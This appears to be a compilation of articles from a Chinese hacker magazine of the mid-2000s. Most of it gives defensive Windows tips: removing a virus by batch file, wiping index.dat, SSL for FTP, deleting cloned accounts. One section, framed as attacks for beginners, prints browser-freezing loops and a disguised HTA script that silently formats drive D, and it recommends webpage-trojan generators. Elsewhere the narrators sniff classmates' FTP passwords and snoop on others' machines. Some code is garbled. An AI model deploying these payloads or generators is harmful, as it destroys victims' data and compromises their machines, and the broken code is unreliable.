继 rose 病毒之后，copy 病毒逐渐流行。其典型症状为双击盘符不能正常打开、出现“自动播放”，并产生 `templ.exe` 和 `temp2.exe` 进程，CPU 占用率高，系统明显变慢。

> **什么是批处理文件**  
> 批处理文件后缀名为 `.bat`，可将一组命令按顺序写入文本，运行后自动执行，常用于 DOS/命令行环境下的批量操作。

- 1. 重启系统进入安全模式，结束 `templ.exe`、`temp2.exe` 进程。  
- 2. 进入 `C:\Windows`，删除 `xcopy.exe`、`svchost.exe`（病毒文件）。  
- 3. 进入 `C:\Windows\System32`，删除 `templ.exe`、`temp2.exe`。  
- 4. 删除各盘根目录下的 `autorun.inf`、`copy.exe`、`host.exe`。  
- 5. 打开注册表：`HKEY_CURRENT_USER\Software\Microsoft\Windows NT\Current Version\Windows`，删除或清空 `Load`。  
- 6. 重启系统。

下面详细介绍批处理文件的建立方法。

```bat
@taskkill /im templ.exe /f /t
@taskkill /im temp2.exe /f /t
```

`Taskkill` 命令可通过 ID 或镜像名结束进程，`/F` 强制结束，`/T` 结束其子进程。第二步删除 `C:\Windows\xcopy.exe`、`C:\Windows\svchost.exe`、`C:\Windows\system32\templ.exe`、`C:\Windows\system32\temp2.exe`。

```bat
@del c:\windows\xcopy.exe /a /f
@del c:\windows\svchost.exe /a /f
@del c:\windows\system32\templ.exe /a /f
@del c:\windows\system32\temp2.exe /a /f
```

第三步删除所有盘符根目录下的 `autorun.inf`、`copy.exe`、`host.exe`、`rose.exe`（X 代表盘符）。

```bat
@del X:\autorun.inf /a /f
@del X:\copy.exe /a /f
@del X:\host.exe /a /f
@del X:\rose.exe /a /f
```

第四步修复注册表。新建 `.reg` 文件并写入以下内容，保存为 `yw.reg`。

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows]
"Load"=""
```

随后在批处理末尾加入 `@regedit /s yw.reg` 调用注册表文件。最终将上述命令保存为 `.bat`，与 `yw.reg` 放在同一目录，双击即可自动查杀 copy 病毒。


（文中涉及到的批处理文件已经收录于光盘中）

## 网上网聊“翻旧”案干净了吗？


坐在我对面的 MM，使用的浏览器是 Maxthon。为了防止别人查看她上网的历史记录，她在 Maxthon 选项中设置的是退出浏览器时清除所有历史记录。这样，她每次上网后历史记录都会被自动清除，这让我很好奇。一天，她不在，打开她的电脑，准备查看一下 MM 的上网记录。我打开“Temporary Internet Files”文件夹，发现文件夹里空空的。我又打开了“冰刃”（这是 MM 为了防止自己的电脑中木马，求我给她安装上的），想看看“Temporary Internet Files”文件夹是否还有没有清除干净的隐藏文件，结果看到了隐藏文件夹 `Content.IE5` 和下面的其它文件。

当然，我们的目的不是为了偷看别人的秘密（也不应该偷看），而是应该研究如何保护我们的秘密，因此我们必须将上网历史记录完全清除。下面提供 2 种方法。

### 1. 直接清除法

使用另一管理员权限用户登录（如没有可新建一用户），找到 index.dat 文件可直接删除。为删除干净可查找所有的 index.dat 文件，当然使用……

> **小知识：**  
> index.dat 是 IE 缓存索引文件，它有助于实现浏览器缓存机制，该机制提高用户浏览器进程对频繁访问网页的访问速度。index.dat 文件是一个比较特殊的文件，系统为了保密是不会让你直接看到 index.dat 文件的。就算你在文件夹选项中设置成了让系统显示所有文件和不隐藏受操作系统保护的文件，也同样看不到也搜索不到它们。要进入 IE 的临时文件夹“Temporary Internet Files”后，在地址栏将“Temporary Internet Files”后面手工加上“\Content.IE5”才能发现该文件。下面还有别的文件和文件夹，index.dat 文件也是其中之一。即使用户在 IE 中执行“删除脱机文件”“清除历史记录”等操作，系统在上述位置的 index.dat 文件也不会被删除，记录仍然存在。


回到我的电脑后，发现没有直接打开此文件的程序，只好使用 WinHex 编辑器将 index.dat 文件打开，仔细查找果然可找到上网历史记录，如图 1。

如果能找到一个打开 index.dat 文件的工具最好了，马上到百度里搜索一下果然找到了一个程序——“index.dat 文件查看器”。程序启动后自动扫描系统中所有 index.dat 文件中的历史记录，如图 2。可以看到上网记录很详细，日期精确记录到几点几分，双击上网记录会调用默认浏览器打开网页，在“过滤列表”中填上你搜索的关键字可以查找你需要的内容。点“打开文件”按钮也可直接打开已经复制出来的 index.dat 文件……


Windows 的查找功能肯定不行了。我推荐使用“IceSword Helper”，它是“冰刃”附带的一个小工具（应启动“冰刃”后再启动此工具，否则可能会出错），可以搜索隐藏的文件（包括用户无权限列举的文件）。如图3，是在我电脑里的搜索结果，可找到系统中所有的 index.dat 文件。此软件唯一的缺点是不能直接删除，根据查找的文件可再使用“冰刃”或到“我的电脑”中去删除。删除 index.dat 文件后，重新使用原来用户登录计算机时，系统会重新创建 Index.dat 文件。此方法的好处是不用任何工具，并且会将 Index.dat 文件彻底删除，但必须有两个用户，方法稍微麻烦些。


### 2. 利用“Privacy Defender”软件

Privacy Defender 是一款英文软件，不过已经有人将它汉化了。它可以直接清除当前用户中所有 IE 文件和隐藏的 index.dat 文件，不需要登录另外用户，另外还可清除其它的临时文件。使用方法很简单，安装完成后点“选项”，根据你需要清理的内容设置后，点“擦除”按钮就可清除所有的记录，如图4。查看一下清除后的 index.dat 文件，属性文件大小没变，打开“index.dat 文件察看器”扫描后，未发现任何上网记录。然后用 WinHex 打开 index.dat 文件，可以看到除文件头外其它内容已经全部用“00”填充。

（本文所涉及的软件：index.dat 文件查看器、冰刃、Privacy Defender，光盘已经收录）

## 菜鸟的网页攻防战

## 攻击——解析形形色色的恶意代码和网页木马生成器

#### （一）恶意代码

- 1. 死循环攻击

攻击代码如：``，此代码是一个“死循环程序”！

在网页中加入上述代码，只要有人点击你所发出的链接就会不停地打开 IE 浏览器，直至系统资源消耗殆尽死机为止。还有同类代码如 `` 与 `<script language="*******">javascript:n=1;dowhile(n==1)</script>` 等。

- 2. “溢出”攻击

攻击代码如：``，原理是让 IE 解析超大尺寸图片，从而导致系统死机。

- 3. 最狠毒的攻击

将特定代码加入 `<head></head>` 并保存为 `*.hta`，即可像可执行程序一样运行。

```html
<hta:application
application="my.app"
border="thin"
borderstyle="normal"
sysmenu="yes"
showintaskbar="yes"
caption="yes"
maximizebutton="yes"
minimizebutton="yes">
```

```vbscript
scr.Reset();
scr.Path='C:\WINDOWS\Start Menu\Programs\启动\startup.ca';
scr.Doc='<object id="wsh" classid="clsid:F935DC22-1CF0-ADB9-00C04FD58A08">';
wsh.Run('start/a format.com d:/q/autotest/u');
alert('IMPORTANT : windows is removing unused temporary files');
scr.write();
```

这段代码中的 `/q /autotest` 参数可使格式化过程不出现提示；代码中的 `F935DC22-1CF0-11D0-ADB9-00C04FD58A0B` 对应 Windows Scripting Host Shell Object，可在注册表中找到。

- 4. 页面假死攻击

攻击代码如图3所示，网页中含有此类代码时，点击“提交”会不断弹出“页面被冻结了！”对话框，进入假死状态。

```html
<body>
<script>
function freeze(){
  alert('页面被冻结了!');
  while(true){windows.history.back(-1)}
}
</script>
<form>
<INPUT TYPE='BUTTON' Value='提交' onClick='freeze()'>
</form>
</body>
```

- 5. 绚丽炸弹攻击

代码如图4所示，先定义数组，再用 `for` 循环实现死循环，并可设置页面背景颜色不断变化。

```html
<script>
var color=new Array;
color[1]='blue';
color[2]='yellow';
for(x=0;x<3;x++){
  document.bgcolor=color[x];
  if(x=2){x=0;}
}
</script>
```

只需改“color[i]="****";color[2]="******"”，把星号部分设置成你想要的颜色就可以。

#### （二）网页木马生成器

要制作网页木马，我们需要网页木马生成器，下面是我比较喜欢的几个网页木马生成器。

- 1. 最简单的网页木马生成器“Object 漏洞网页木马生成器”，执行后的界面如图5所示，生成的网页木马就一个木马页面，使用很方便。该工具特点在于不用上传木马文件，也不用 FTP 方式下载木马程序，生成的木马不易被服务器查杀，也避免别人看到你的 FTP 密码。
- 2. 改进型的网页木马生成器“天知道 SP2 四马生成器”，软件运行后的界面如图6，最近又有“天知道 Hclzbe 网页木马生成器”被公布。它利用的是 Help Control Local Zone Bypass Exploit，运行后如图7，使用都非常简单。另有不受 IE 版本和补丁限制的 RealPlayer 网页木马生成器等。
- 3. 远程控制型的网页木马生成器：比如网页木马生成器 V1.0 版，是一种比较传统的网页木马生成器。

最后再向大家推荐一个比较新的能突破 XP+SP2 的网页木马生成器，运行后的界面如图8。我们首先选择木马的位置，然后选择网站地址，选择生成木马的存放位置，然后点“生成”按钮就可以了。

当我们使用网页木马生成器制作木马网页的时候，当我们使用恶意代码攻击别人的时候，我们有没有想到过我们也会中别人的木马或者也被别人攻击呢？下面就来看我们应该如何防范恶意代码攻击和形形色色的网页木马。

### 二、防范一些恶意代码和木马网页的措施

- 1. 不要浏览并不了解的网站，也不要在聊天室里点击其他网友贴出来的超链接；可用 httpdebug 检查网页代码，减少恶意代码攻击或中马风险（界面如图9）。
- 2. 留意微软和各大安全网站发布的安全公告，及时更新浏览器和补丁，建议每周至少 update 一次，并把恶意站点加入 IE“受限站点”。
- 3. 安装防火墙和杀毒软件，建议三天更新一次病毒库，并认真设置防火墙规则。
- 4. 事先备份注册表；若 IE 主页被改，可在注册表中修复相关键值。
- 5. 将本机危险命令（如 FORMAT、DEL、DELTREE 等）改名或转移目录。
- 6. 增强 IE“免疫”能力，把网络连接安全级别设为“高”，关闭有风险的 JAVA/ActiveX 选项。
- 7. 通过系统目录与 CMD 等方式检查是否存在“黑”文件并及时清理。

“安全”选项里的“自定义级别”按钮，把“ActiveX 控件及插件”和 Java 相关选项设为禁用；还可把“我的电脑”加入到安全选项里进一步增强本地计算机安全。方法如下：打开注册表编辑器，找到 `[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\InternetSettings\Zones\0]`，把 flags3 改成 1（十进制）即可。


系统目录输入 `c:\winnt\system32 dir *.exe>1.txt c:\winnt\system32\ dir *.dll>2.txt`，当你感觉到系统有问题时，以同样的方法得到 `3.txt` 和 `4.txt`，然后 `fc 1.txt 3.txt >5.txt`，找出被写进的 exe 文件，以同样的方法查到系统新的 dll 文件。

我们可以写一个批处理放到系统目录（注意一下别放到其他的目录里）：

```bat
dir *.exe>3.txt
dir *.dll>4.txt
fc 1.txt 3.txt>5.txt
fc 2.txt 4.txt>6.txt
copy 5.txt con
copy 6.txt con
```


执行后如图10所示，然后我们把它设置成计划任务，让它每天执行，这样我们就可以实时监控我们的电脑了。

> （文中涉及到的工具：httpdebug 以及网页木马生成器、Object 漏洞网页木马生成器、天知道 SP2 网页木马生成器、突破 XP+SP2 的网页木马生成器等，光盘已收录）

## 让我们的 FTP 服务器免疫 Sniffer

旭方（高春雷）

在看过 06 年第 4 期关于嗅探的文章后，想必大家对其中介绍的工具及方法都已经牛刀小试了吧。对于如何利用 xsniff 嗅探 FTP 密码的方法也都应该已经掌握。先说说我自己的实践经历：我们学校为了学生存储作业方便，特地为每位学生在服务器上开通了 20M 的存储空间，而且局域网内共享或局域网（使用 HUB 连接），这就为嗅探打下了坚实的基础。于是我便在上课时利用 xsniff 直接嗅探作业服务器，这样所有此时连接到服务器的学生 FTP 账号和密码就都落到了我的手里……今天我就教大家使用 SSL 来打造安全的 FTP 服务器，从此不再惧怕 sniffer 的骚扰！

先来说说什么是 SSL。SSL（Secure Socket Layer，安全套接字层）是网景（Netscape）公司推出的一种安全通信协议，它能够对信用卡以及个人信息提供较强的保护。SSL 是对计算机之间整个会话进行加密的协议。在 SSL 中采用了公钥密码和私有密钥两种加密方法，所以使用 SSL 协议后我们就可以保证网络中传输的数据不被非法用户窃取到。现如今一般的 FTP 服务器都是以明文方式传输数据的，而且数据在传输过程中没有任何加密措施，所以信息很容易被窃取，sniffer 之所以有广阔的市场也正是钻了这个空子。

今天我就拿我们平时使用最广泛的 FTP 服务器软件 Serv-U 为例来讲讲如何加密我们的信息来防止其被非法窃取。首先我们需要安装好 Serv-U（其实很简单，一路 Next 即可），安装完毕后配置 FTP 域并添加用户。一切准备就绪后就可以开始了，如图1。

其实 Serv-U 本身已经提供了 SSL 加密功能，只不过默认情况下没有被启用，需要我们手动启用。在这之前我们首先需要创建一个 SSL 证书（虽然 Serv-U 在安装时就已经自动生成了一个 SSL 证书，但这个默认生成的 SSL 证书在所有的 Serv-U 服务器中都是一样的，非常不安全，所以强烈建议大家手工创建一个属于自己的 SSL 证书）。

创建 SSL 证书的方法如下：依次点击“Serv-U 服务器”→“本地服务器”→“设置”，然后切换到“SSL 证书”选项，如图2。这里的信息根据你的实际情况进行填写即可。倘若对哪个项目不太清楚，可以把鼠标放到该项目上，接着会弹出帮助信息，我填写的信息如图3所示。


## 安全第一


信息填写完毕后点“应用”按钮即可，这时 Serv-U 就生成了一个新的 SSL 证书。证书已经创建完毕，但要想利用该证书必须启用 Serv-U 的 SSL 功能！方法是点击“Serv-U 服务器”→“本地服务器”→“域”，在其下方就会显示出我们所建的域的信息。


之后点击你要启用 SSL 功能的那个域，然后会显示如图5所示信息，我们在“安全性”中选择“只允许 SSL/TLS 会话”，这样会强制客户端只能使用 SSL 进行连接。细心的朋友会注意到这个时候 FTP 的端口由原来的“21”变成了“990”，这点尤其要注意。


至此 FTP 服务器端我们已经配置完毕，接下来就该使用客户端进行连接了。FTP 客户端程序必须支持 SSL 功能才可以进行连接，这里以 FlashFXP 中文版为例进行说明。依次点击“会话”→“快速连接”，填写 FTP 服务器地址以及账号和密码信息，FTP 地址后缀加上“:990”。


“SSL”标签页，选择“隐式 SSL”，然后是下面的“安全连接选项”处的四个选项，这里可根据自己的实际情况进行选择，如图7。

然后点击“连接”按钮，连接成功后会弹出“证书”对话框。如选择“接受一次”，则断开当前连接后再次连接时还会弹出证书对话框；如果选择“接受并保存”，则证书就被下载到本地。之后可以在 FlashFXP 的状态栏中看到一个“小锁头”图标，这代表当前传输是安全的加密传输，数据传输已受到 SSL 加密保护。


文章写到这里就结束了，如果大家还有什么问题或者更好的办法，欢迎到论坛（http://www.hackerxfiles.net/index.php）与我交流。

> **X档案：** 其实，默认的 FTP 及 Telnet 在数据传输过程中都是使用明文传输的，因此使用嗅探器可以较容易获得密码；而使用了 SSL 后，捕获到的数据已经加密，攻击者无法直接读取。对于 FTP 的安全性提升明显，而对于 Telnet，Internet 上更多的是改用了加密传输的 SSH。


## 无阻账号

## 巧妙删除系统中的

旭方（高春雷）

最近我们学校附近新开了一家网吧，听寝室的哥们儿说那里的环境和电脑的配置都非常不错，于是我便打算亲自去体验一下！来到那家网吧，我找了台电脑坐下，随手用鼠标右击“我的电脑”去查看该机器的配置，好家伙！配置真的很不错哦！AMD Athlon 64 位 3000+ 的 CPU，速度 1.81G，1G 的内存。哇，1G 的内存哟，看来玩游戏和搞 Hack 都不用愁内存不够用了！我从工具箱里把平时常用的 Hack 工具下载了下来打算继续我的 Hack 之旅，但当我打开 LP_Check（这个工具用来检查当前系统中哪些用户被非法克隆过，非常经典，推荐菜鸟使用）这个工具的时候，却看到了如图1所示的界面，居然 Help Assistant 和 SUPPORT_33894 这两个系统内置账号被克隆了！


接着我又右击“我的电脑”，从“属性”菜单里打开“远程”项，如图2。发现“允许用户远程连接到这台计算机”是被选中的，我又到朋友正在上网的机器上看了一下，发现他使用的电脑上也是这两个账户被克隆，而且也允许远程连接！于是我使用 `net user 用户 新密码` 命令更改了他机器上的一个用户的密码，然后看能不能远程连接上，结果连接成功，而且顺利登录！看来有人将 XP 不支持 2 个用户登录的限制也给解除了！此举究竟是网管还是其他人所为我就不清楚了。这两个被克隆的账号极有可能是入侵者试图登录其它电脑所使用的后门账号！

看来当前唯一的解决办法就是删除那两个被克隆过的账号了。这里我给大家介绍一种通过修改注册表来删除系统中被克隆账号的方法，方法是在“开始”→“运行”中输入 regedit，接着展开到 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names` 下，然后将其下以被克隆的账号名命名的项删除即可！这个时候有些朋友就提出疑问了：当我们使用当前登录的用户账号（administrator 权限）访问该注册表项的时候，当访问到 `HKEY_LOCAL_MACHINE\SAM\SAM` 的时候，发现其下已经没有子项了，这个是怎么回事呢？


其实这是由于 `HKEY_LOCAL_MACHINE\SAM\SAM` 这个注册表项只能由具有 System 权限的用户才可以访问到，即使我们使用当前的具有 administrator 权限的账号也是无法访问的，所以我们就要将当前的用户权限提升为 System 权限。具体该怎么做呢？经常玩脚本入侵的朋友应该对 MT 这个工具不陌生吧？！它小巧的身材和强大的功能为我们的入侵解决了不少实际问题！当我们看 MT 的帮助的时候，会发现它有很多的参数，其中就有一个参数“-su”，MT 对该参数解释为：“Run process as Local_System privilege.”，意思是以本地系统权限来运行一个程序。


好的，我们就使用它来提升我们当前用户为 System 权限！方法是在“开始”→“运行”中输入 cmd，然后在命令提示符下进入 MT 文件所在的目录（文中示例放在 C 盘根目录），之后输入“mt -su”，成功后会提示“Successful!”，然后 MT 便会打开一个新的命令提示符窗口。接着把 whoami 程序拷贝到 `C:\Windows\System32` 目录下，并输入 whoami，可见我们已经具有 System 权限了（如图4）。


然后我们在该窗口中输入 regedit，成功后我们就以 System 权限打开了注册表编辑器，这样我们就具有访问 `HKEY_LOCAL_MACHINE\SAM\SAM` 下的子键的权限了！如图5。

怎么样？这回可以访问了吧！然后我们依次展开到“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names”下，如图6，看见了吧，我们系统中的账号都在这里，然后我们将以前被克隆的那两个账号名字命名的项删除即可。之后我们再次使用 LP_Check 查看一下，如图7，怎么样，克隆账号被成功清除了吧！

然后就是将“允许用户远程连接到这台计算机”前面的勾去掉，接着使用“net user 用户名 新密码”来将当前系统中的用户密码进行更改，之后再使用“net share”命令查看下当前系统中存在的共享信息，接着使用“net share ipc$ /del”、“net share admin$ /del”、“net share c$ /del”、“net share d$ /del”、“net share e$ /del”来将当前系统中的默认共享全部删除掉，防止别人再利用其他的办法再次骚扰我的机器。

方法以及思路我就先介绍到这里了，如果大家还有什么更好的方法，欢迎到X的论坛与我交流！我的ID是地方。

## 独揽整合

花的神明

### 快速清除恶意程序

看了黑客X档案06年第4期上的“清除恶意软件，恢复补丁清誉”一文后，感觉受益匪浅。文中提到的清除恶意程序的方法的确很实用，但我认为其操作方法有些繁琐。时下各种病毒、木马、间谍程序、蠕虫等呈现泛滥趋势，严重威胁着单机和局域网的安全。通常方法是安装各种杀毒和防火墙软件，防范和清除企图侵入系统的恶意程序。不过，病毒等恶意程序的发现还是很棘手，即使用户不断升级病毒库，也难以及时发现最新病毒。

有时我们通过 IceSword 等安全软件，能够发现潜伏到系统中的可疑程序，但是当试图手工删除这些可疑程序时，系统却提示无法删除文件。对于这些删不了的“难缠”文件，通常情况下，只有记下文件路径，利用启动型光盘，或者利用各种工具将软盘、闪盘等移动存储器制作成引导盘，引导系统进入 DOS 环境，手工进行删除操作。如果系统是 NTFS 分区，那在 DOS 下还得使用 NTFSDOS 来手工删除。对于新手来说，这样的操作显得比较麻烦。

如果这些可疑文件是具有破坏力的病毒等恶意程序，不及时将其删除会造成严重后果。在 Windows 9X 时代，可以在系统文件夹里的 Wininit.ini 文件中加入特殊指令，在系统启动前删除文件。但在 Windows 2000/XP 大行其道的今天，如何能够抢在系统启动之前将其删除呢？Unlocker 就是一款不错的工具，它能在文件被系统锁定的情况下，依然可以对文件进行删除、移动、改名等操作。

“工欲善其事，必先利其器”，要删除潜伏在系统中的恶意程序，必须要有一双“慧眼”来发现恶意程序的行踪。我推荐目前很常用的瑞星防火墙2006。瑞星防火墙2006具有许多新特性，其中比较有特色的就是对系统启动项的全面管理功能。如图1，将 Unlocker 和瑞星防火墙2006联合使用，那么潜伏到系统的恶意程序就无“容身”之地了。

### 如何发现可疑程序

现在的病毒等恶意程序往往设计得非常狡猾，常常利用进程注入、修改注册表启动项、将自身注册成系统服务、实现和特定文件类型关联、在系统 Boot 前加载等技术来隐藏自己。而瑞星防火墙2006具有的全面管理启动项功能，能让恶意程序“暴露无遗”。

我们以火狐版灰鸽子和 Beast 为例，来说明如何利用瑞星防火墙2006来发现其“行踪”。木马 Beast 运行后，通常会在注册表启动项中加入启动程序 Msrxwx.com，然后将木马主程序 Dxdgns.dll 注入到系统进程 Winlogon 中，实现隐藏运行；火狐版灰鸽子只有一个主程序 G_SERVER.EXE，并且将自身注册成系统服务。

打开瑞星防火墙2006主窗口，在“启动选项”面板中能查看利用注册表启动项、系统服务、文件关联、系统 Boot 前加载等技术启动的程序信息。实际上，在该面板中点击右键菜单，在弹出菜单（图2）中还可以选择包括驱动、资源管理器插件、IE 浏览器插件、登录通知项等许多和启动项相关的显示内容，默认情况下隐藏经过微软和瑞星签名的程序信息。

在 “HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run” 和 “HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run” 中，可以清楚看到木马 Beast 的启动程序 Msrxwx.com，其注册表键值名为“COM Service”。双击该启动项，可以打开注册表并直接定位到相关分支中（图3）。双击打开“COM Service”键值名，可以看到其路径为“C:\Windows\Msagent\Msrxwx.com”。

同时打开“启动选项”面板，在服务列表中能够看到注册成系统服务的火狐版灰鸽子，其服务名称为“Gray_Pigeon_Server”。双击该服务名，可以打开注册表并直接定位到相关服务项中，在“ImagePath”键值中可以看到其路径为“C:\Windows\System32\G_Server.exe”。

同样原理，对于“清除恶意软件，恢复补丁清誉”一文中提到的伪装成系统服务的 Anfad.sys、Fad.sys、Hprocess.sys 等程序，也能在“启动选项”面板的服务列表中查找到，进而准确定位其路径。

在瑞星防火墙2006主窗口中切换到“系统状态”面板，点击其中的“进程信息”按钮，在进程列表中选中 Winlogon.exe 进程，在其右键菜单（图4）上点击“查看模块”项，打开和该进程相关的模块列表（图5），能够看到注入到其中的 Beast 重要库文件 dxdgns.dll，及其路径“C:\Windows\System32\Dxdgns.dll”。

知道了具体路径，当试图手工删除这些可疑程序时，系统却提示无法删除。

## 巧妙删除可疑程序

Unlocker 的使用很简单：在资源管理器中选中文件或者文件夹，在其上点击右键，在弹出菜单上选择“Unlocker”项即可。

首先，在资源管理器中点击菜单“工具”→“文件夹选项”，在文件夹选项窗口的“查看”面板中勾选“显示隐藏的文件和文件夹”。

利用 Unlocker 删除可疑文件有三种情况：

- 对于没有运行的，或者已经运行但没有注入到其他进程中的可疑文件，在该文件的右键菜单上点击“Unlocker”项，Unlocker 会弹出对话框（图6），提示用户当前选定文件没有处于锁定状态。在动作列表中可以选择无动作、删除、重命名、移动等操作。  
  若选择删除操作，点击“确定”按钮后，该文件就立即被中止运行，然后 Unlocker 直接将其删除。  
  若选择重命名操作，Unlocker 会弹出改名对话框，可以输入文件新名称，文件随后被中止运行，然后 Unlocker 将其改名。  
  若选择移动操作，Unlocker 会弹出目标文件夹选择窗口，目标文件夹确定后，Unlocker 就将文件中止运行，并将其移动到指定文件夹中。

- 对于已经运行并注入到系统进程中的可疑程序，例如木马 Beast 的启动程序和其核心文件，在资源管理器中选中文件并点击“Unlocker”，会检测到有关进程调用了这些文件。在处理窗口（图7）中可列出可疑文件的宿主进程，在进程列表中选中这些系统进程（可多选），然后在动作列表中选择“删除”，同时点击“解锁”或“全部解锁”按钮，Unlocker 会自动结束选定进程并在重启前删除文件。

- 对于伪装成系统服务的可疑文件（如 `C:\Windows\System32\G_Server.exe`），在资源管理器中找到并右键选择“Unlocker”，在检测窗口（图8）会列出这些文件。选择“删除”并点击“解锁”，可在系统下次重启前清除可疑文件。对于“清除恶意软件，恢复补丁清誉”一文中提到的可疑文件夹，也可在 Unlocker 中直接删除、重命名或移动，以保留样本或彻底清理。

顺便说一下，使用 Unlocker 还能删除很容易暴露用户隐私的 `index.dat`。用户在网上冲浪时会在 IE 缓存、收藏夹、历史记录、Cookie 等位置留下痕迹。即便删除常规记录，分布在 `Cookies`、`History.IE5`、`Temporary Internet Files\Content.IE5` 等目录中的 Index.dat 往往仍然存在。它们具有隐藏属性，记录了访问历史、打开/关闭文件路径等信息，且会随上网时间增大。

在 Windows 搜索中输入 `index.dat` 可找到多个文件，逐一右键选择“Unlocker”打开检测窗口。若检测到被 `Explorer.exe` 等进程占用，在动作列表中选“删除”并点击“解锁”，重启后即可删除。对于未被系统进程使用的 Index.dat，可直接删除，从而较彻底清除对应历史痕迹。

## 为了安全，给“黑客之路”我用“影子系统”

由于上网浏览和从网上下载的软件、电影等文件经常被捆绑木马、病毒，致使我们的系统常常崩溃，尤其是我们这帮菜鸟更经常研究、种植木马，系统更是不稳定，因此重装系统是家常便饭。为了避免系统崩溃，我们用尽了各种办法，但是仍然难免要重装系统。

为了免除重装系统的噩梦，因此黑迷们研究使用木马时常常使用虚拟机，但是虚拟机毕竟是建立在操作系统之上的操作系统，因此运行速度和方便性等都和正常操作系统不能相比。

今天我给黑迷们带来一个好用的软件——PowerShadow，中文名称“影子系统”。它虚拟现有操作系统的完整影像，这个影像和正常操作系统一模一样，所有操作进行在 Windows 的虚拟影像中，不对真正 Windows 系统产生影响，并且占有系统资源很少，所有改变将在退出虚拟模式后消失；从理论上讲我们的操作系统可永不坏。

“影子系统”不同于“还原精灵”。“还原精灵”是对硬盘分区表的操作，使用不当对系统则是灾难性的，因为还原精灵的原理是修改 MBR，尤其转储文件时更是危险。而“影子系统”几乎不存在什么安全隐患，它随时可启动和退出保护模式，方便实用。

软件安装完成后，重启系统并进入正常模式后运行“影子系统”，然后对“影子系统”进行一些设置（修改设置必须在正常模式中，保护模式无法修改任何设置），如图1。

在“常规”选项中可选择启动模式：

- 勾选“启动单一模式镜像模式（只创建系统盘镜像）”时，“影子系统”只保护系统分区，推荐黑迷们使用这种模式。在此模式下，即可保护系统不受木马、病毒侵袭，又可将需要保存的文件保存到非系统分区。
- 勾选“启动完整镜像模式（创建所有磁盘镜像）”后，“影子系统”可保护系统所有分区，在这种模式下所有文件是无法保存的。

勾选上面两种模式中任意一种模式后，点击下面的“开始”按钮不需要重启系统，可从正常模式直接进入保护模式。

打开“启动菜单”选项，如图2，可设置系统启动时启动菜单的显示项：

- “显示单一镜像状态（只创建系统盘镜像）”
- “显示常启模式和‘显示单一镜像状态’模式”
- “启动完整镜像模式（创建所有磁盘镜像）”
- “上述二者全部显示”

建议勾选“上述二者全部显示”，因为此选项可进入所有模式，如图3可看到所有选项菜单。勾选“显示 PowerShadow 启动菜单”（此菜单汉化不准确），则显示正常的 Windows 启动菜单。

打开“提示信息”菜单，如图4，可选择“影子系统”运行时的提示信息，可根据需要进行选择。不过“系统开关机时提醒我”一定要取消，如不取消此选项，系统关机时“影子系统”的提示对话框很容易造成系统关不上机。

打开“计划任务”，如图5，可设置自动更新时间和关机时自动退出镜像时间。这两个选项仅在“影子系统”的保护模式设为默认启动时可选，否则是灰色不可选。

“影子系统”对保护我们的系统确实是一个好用的软件。有了“影子系统”的保护，我们上网就不怕木马与病毒。需要注意的是，发现系统异常后（如 QQ 自动退出、杀毒软件自动关闭等），明智的选择是马上重启系统，木马、病毒就远离我们而去了。

对于天网防火墙、瑞星等因为需要更新文件的程序，也不能安装到系统盘，因需要记录程序访问网络规则和更新病毒库。而 QQ 等软件可根据具体需要安装，如不需要记录聊天记录最好安装在系统盘中，以免中 QQ 病毒（因为有的 QQ 病毒在感染系统文件的同时也感染 QQ 文件，重启系统后即使系统是干净的，运行 QQ 后可能又感染病毒）。

“影子系统”不仅可在家庭和单位中使用，也可在网吧等地方使用。由于网吧的特殊性，必须做一些修改。安装完网吧必须的软件后，再安装“影子系统”，启动正常模式，在根目录中找到 Boot.ini 文件（此文件为启动菜单显示文件），然后删除此文件（不会影响系统启动）后，在图1中勾选“启动完整镜像模式（创建所有磁盘镜像）”，点击下面的“开始”按钮可从正常模式直接进入保护所有磁盘模式。

重新启动系统后，由于没有 Boot.ini 文件，就不能显示启动菜单，因此无法进入正常模式，任何人只能进入保护模式。这样谁都无法修改任何文件，也无法进入正常模式，即使你按 F8 进入系统安全模式，也无法修改任何文件。唯一的办法就是用启动盘启动系统，添加 Boot.ini 文件，重启系统后就可进入正常模式。因此个人认为，“影子系统”也是一个好用的网吧管理软件。到现在为止好像还没有破解方法（关闭结束“影子系统”进程都会造成系统重启），希望高手们能找到破解方法。

由于在“影子系统”保护模式中不能存储文件，因此我们必须在正常模式中安装好所有软件，并且设为“启动单一模式镜像模式（只创建系统盘镜像）”，并设为默认启动，每次启动时直接进入保护系统盘模式，即可保护我们的系统盘。为了存储文件方便，建议将“我的文档”“收藏夹”等转移到非系统盘。由于手工移动文件夹太麻烦，我们可利用微软提供的 TweakUI v2.10 工具，通过它你可以轻而易举地调节上百个系统设定，如图6，我们可以将“我的文档”“收藏夹”等都移动到非系统盘。

（文中涉及到的工具 PowerShadow 影子系统、TweakUI v2.10 已经收录在光盘中）

## BT下载与压缩包木马剖析秘籍

我经常使用 BT 软件下载各种东西，尤其是从 5Q 地带的 BT 站点。可是，我发现最近从 5Q 地带下载回来的不少压缩包里都含有木马。有许多压缩包里都有木马。这些含有木马的文件我都一直保存着，并且经过我的分析与总结，发现这些被放马的文件还是有一定规律可循的。黑客的精神之一就是共享，因此写出来与大家一起分享。

- 1. 大多数放马的 BT 供种者都喜欢把木马放在压缩包中，尤其是带脚本的自解压压缩包。大家都玩过大名鼎鼎的 WinRAR 吧，并且对它的脚本功能更是情有独钟，因为这个功能实在太好用了。平时我们在制作自解压文件时，也都喜欢在里面加入脚本，最常用的莫过于“Setup=可执行文件名”“Presetup=可执行文件名”“Silent=1”了。这固然方便，可也给了黑客可乘之机（图1）。
- 2. 越是流行的、最新的东西越有可能被捆绑木马。因为流行，所以下载的人自然就多；因为最新，尝试的人自然就多，中马的几率就高，自然就会被放马者所青睐。
- 3. 名字越是吸引人的越有可能被捆绑木马，如带有激情视频、超级美女等字眼的。这就跟现实中的诈骗一样，首先要吸引你的眼球，当你兴高采烈地运行下载下来的这类文件时，你的电脑就会神不知鬼不觉地成为别人的肉鸡。
